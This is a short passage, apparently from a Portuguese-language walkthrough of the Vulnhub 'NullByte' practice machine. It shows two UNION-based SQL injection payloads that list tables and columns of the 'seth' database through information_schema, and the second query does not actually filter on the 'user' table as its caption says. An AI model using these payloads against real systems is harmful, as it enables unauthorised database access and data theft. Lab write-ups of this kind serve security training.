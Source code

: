 
Listamos as tabelas do bando de dados "**seth**"

```
usrtosearch="union+select+9,table_name,9+from+information_schema.columns+where+table_schema=database()%23
```

![](/assets/img/Vulnhub/NullByte/web-SQLi-seth-table.png)



Listamos as colunas da tabela "**user**" do banco "**seth**"

```
usrtosearch="union+select+9,column_name,9+from+information_schema.columns+where+table_schema=database()%23
```

